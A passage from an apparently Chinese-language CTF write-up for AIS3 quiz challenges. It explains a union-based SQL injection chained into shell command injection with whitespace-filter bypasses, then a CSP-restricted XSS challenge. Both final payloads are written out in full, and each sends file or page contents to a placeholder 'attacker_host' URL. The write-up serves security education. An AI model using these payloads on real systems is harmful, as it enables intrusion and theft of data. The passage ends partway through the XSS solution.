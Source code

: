 先來完整的看一下前面提到的程式碼片段，可以發現從 SQL query 出來的 `host` 與 `port` 欄位都會被當作 command 的一部分串接進 `shell_exec` 的參數中，來簡單分析一下：

- `port` ：被強制轉型成 int 了所以沒辦法利用

- `host`：只對他做了移除空白字元的處理而已，最終仍是直接被串接進 command 裏執行

可以看出 `host` 有明顯的 command injection 問題存在。

總結一下，我們現在的目標是：要在 `timeout 1 nc -vz '$host' $port 2>&1` 的 host 變數中不用到空白字元注入任意指令。

然而其實不用空白字元相當簡單，在 sh 中你可以使用 `"\t"` (tab) 或 `$IFS` 取代空白，或是用類似  `{cat,/flag}` 這種格式的指令，這些小技巧應該都能[簡單 Google 到](https://www.google.com/search?q=command+injection+without+whitespace)，所以只要把 host 注入成類似 `';cat\t/flag;'` 這樣的東西就能注入任意命令了！

最終 payload 如下：
```
http://quiz.ais3.org:8001/
?module=modules/api
&id=0 union select 1, "';curl%09http://attacker_host/$(cat%09/*);'", 3--
      ^               |-------------------------------------------|  
    union-based sqli           command injection in `host`
```

## XSS Me

- Category: Web
- Difficulty: Easy ~ Medium
- Solves: 5/327
- Keywords: XSS, CSP

這題除了 content security policy (CSP) 以外，其實是復現了我在 real world 遇到的一個場景，而且它原本的字數限制還比這題稍微嚴格一些 XD

這題雖然限制有些刁鑽，但所需要的知識僅僅是基礎 JavaScript 而已，並沒有太奇怪的專業技術（例如 利用 JavaScript 特殊特性、DOM clobbering、prototype pollution 等等），理論上對前端不陌生但沒太多 Web security 經驗的人是有能力解出來的——當然，還是需要腦筋急轉彎一下啦；另一方面，我猜想應該不少新手不瞭解或沒聽過 content security policy，因此有在題敘中特意註明此題有 CSP 並附上參考資料，貼心吧 (X)

### Overview

題目相當單純，背後邏輯可以化簡成這樣的虛擬碼：
```html
<script>
	const message = {{ json.dumps({ "icon": "info", "titleText": message[:55] }) }};
</script>
```
其中只有 message 內容能被使用者妥善控制，但有最多 55 個字元的字數限制。目標是要偷到 `/getflag` 頁面上的內容。

### Solution

#### TL;DR

- PoC 0x01:
    Use `location.hash` with `javascript:`.
    
    ```
    http://quiz.ais3.org:8003/
    ?message=</script><script>location=location.hash.slice(1)//
    #javascript:fetch('/getflag').then(function(r){return/**/r.text()}).then(function(r){location='http://attacker_host/'+r})
    ```
    